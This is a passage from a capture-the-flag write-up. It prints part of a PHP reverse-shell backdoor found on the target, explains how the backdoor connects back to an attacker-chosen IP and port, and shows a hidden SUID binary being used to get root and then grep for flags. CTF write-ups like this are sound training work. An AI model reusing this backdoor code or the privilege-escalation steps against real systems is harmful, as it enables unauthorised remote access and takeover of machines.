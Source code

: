 ```php

while(1)
{
    if(feof($sock) || feof($pipes[1])) break;
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    if(in_array($sock, $read_a)) { $i = fread($sock, 1400); fwrite($pipes[0], $i); }
    if(in_array($pipes[1], $read_a)) { $i = fread($pipes[1], 1400); fwrite($sock, $i); }
    if(in_array($pipes[2], $read_a)) { $i = fread($pipes[2], 1400); fwrite($sock, $i); }
}

fclose($sock);
for($x=0;$x<=2;$x++) fclose($pipes[x]);
proc_close($proc);
?>
```

This PHP script is an authenticated reverse shell backdoor that provides remote system access when triggered with specific parameters. After verifying a hardcoded MD5 password via POST, it executes a reverse shell connection to an attacker-controlled IP/port specified in GET parameters (`?ip=X&port=Y`). The critical `$shell` variable executes `uname -a; w; /lib/defended/libc.so.99` - first running system reconnaissance commands, then executing a hidden SUID binary (`libc.so.99`) likely designed for privilege escalation.

So, in order to get a shell as root, we can do this:

```bash
uname -a; w; /lib/defended/libc.so.99
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250501150356.png)

There we go, we got root, let's find the 2 flags we are missing and finish the CTF:

```
find / -type f -name "*.flag" 2>/dev/null
/root/root.flag
/home/zeus/user.flag
```

Hmm, still missing the last flag, let's use grep, since we know all flags go with this format:

```
flag{}
```

We can go with this command:

```bash
find / -readable -type f -exec grep -PHoa 'flag{[^}]+}' {} \; 2>/dev/null

/root/root.flag:flag{D4mN!_Y0u_G0T_m3_:)_}
/home/zeus/user.flag:flag{Y0u_G0t_TH3_l1ghtN1nG_P0w3R}
etc/ssl/private/.b0nus.fl4g:flag{Y0u_G0t_m3_g00d!}
```

We can submit both flags and end the CTF.

![](gitbook/cybersecurity/images/Pasted%20image%2020250501151712.png)
